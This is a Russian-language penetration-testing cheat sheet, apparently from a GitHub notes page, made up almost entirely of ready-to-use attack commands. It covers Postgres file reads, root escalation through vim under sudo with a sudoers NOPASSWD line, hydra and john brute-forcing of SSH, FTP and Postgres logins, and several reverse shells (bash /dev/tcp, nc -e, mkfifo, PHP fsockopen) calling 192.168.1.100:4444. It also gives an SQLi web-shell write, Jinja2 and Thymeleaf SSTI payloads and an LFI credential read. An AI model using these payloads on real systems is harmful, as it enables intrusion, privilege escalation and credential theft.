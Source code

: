 **Postgres:**
Чтение каталогов через:
```
SELECT pg_ls_dir('/home');
```
Чтение файлов:
```
SELECT pg_read_file('/home/file');
```
**Доступные команды sudo: sudo -l**
**vim с правами root:**
```
/usr/bin/vim -c ":!/bin/bash"
/usr/bin/vim /etc/sudoers
  <твое_имя_пользователя> ALL=(ALL:ALL) NOPASSWD: ALL
```
**Перебор паролей ssh:**
```
hydra -l user -P password.txt ssh://IP
```
**Атака по открытому ключю:**
```
john --worldlist=password.txt --format=SSH id_rsa
```
**Перебор паролей FTP:***
```
hydra -l admin -P password.txt ftp://IP -t 1 -w 10
t - одно соединение за раз
w - задержка в 10 секунд
```
**Перебор паролей postgres:**
```
hydra -l postgres -P password.txt -V IP postgres
```
**Reverse shell:**
Если есть RCE:
```
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1 - на цели
nc -lvnp 4444
```
ИЛИ:
```
nc -e /bin/sh 192.168.1.100 4444
```
ИЛИ:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.100 4444 > /tmp/f
```
**Если можем загружать файл и открыать его:**
Создаем .php:
```
<?php
$sock=fsockopen("192.168.1.100",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
**Если есть SQLi Postgres:**
```
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
curl http://target.com/shell.php?cmd=whoami
```
**Если есть SSTI на Jinja2:**
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc -e /bin/sh 192.168.1.100 4444').read()
```
**Если есть SSTI на Thymeleaf:**
```
${T(java.lang.Runtime).getRuntime().exec("nc -e /bin/sh 192.168.1.100 4444")}
```
**Через LFI:**
```
http://target.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
Декодируем данные, находим креды, используем их в дальнейшем
